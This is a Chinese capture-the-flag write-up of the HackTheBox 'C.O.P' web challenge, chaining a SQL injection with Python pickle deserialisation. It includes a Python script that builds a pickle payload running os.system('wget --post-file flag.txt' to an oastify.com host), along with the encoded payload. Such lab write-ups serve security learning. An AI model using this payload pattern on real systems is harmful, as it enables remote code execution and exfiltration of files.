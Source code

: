 ```yaml
---
title: HackTheBox C.O.P WriteUP
date: 2023-08-29 14:54:12
tags:
- HackTheBox
- Web
- SQL注入
- Python反序列化
---
```


## 题目

> The C.O.P (Cult of Pickles) have started up a new web store to sell their merch. We believe that the funds are being used to carry out illicit pickle-based propaganda operations! Investigate the site and try and find a way into their operation!

![challenge](image.png)

## 思路

### SQL注入

`routes.py`中可以看到两条URI：

![routes](image-1.png)

跟踪`product_id`,可以看到此处并未对传入的参数进行任何过滤，存在SQL注入：

![SQL injection](image-2.png)

### 反序列化

网站使用了Jinja2 模板引擎，主页代码如下：

![index](image-3.png)

这里会循环读取商品列表，获取数据库中商品的信息。另外我们可以看到网站设置了template_filter('pickle')，所以这里会用`pickle_loads(s)`处理检索来的`product.data`

![app.py](image-4.png)

所以我们需要构造一条python的序列化数据，传入pickle_loads(s)并执行，从而实现RCE。

## 解题

首先使用python构造一条序列化数据，这里照着题目给的源码写就可以了。

``` python
import pickle, base64
import os

class Exploit(object):
    def __reduce__(self):
        cmd = ("wget --post-file flag.txt mf5rw3jw4to5z0jk3gclnr8gs7yxmm.oastify.com")
        return (os.system, (cmd,))

malicious_payload = pickle.dumps(Exploit())

print(base64.b64encode(malicious_payload).decode())
```

输出出来的Payload大概是这样的：

```
gASVXwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjER3Z2V0IC0tcG9zdC1maWxlIGZsYWcudHh0IG1mNXJ3M2p3NHRvNXowamszZ2NsbnI4Z3M3eXhtbS5vYXN0aWZ5LmNvbZSFlFKULg==
```

然后构造SQL注入Payload:

![payload](image-5.png)

**PWN!**

![FLAG](image-6.png)

## 后记

开始做题的时候钻了牛角尖，绞尽脑汁想怎么把序列化的数据写到数据库里。

其实只要让查询语句返回的内容是自己构造好的序列化数据就可以了。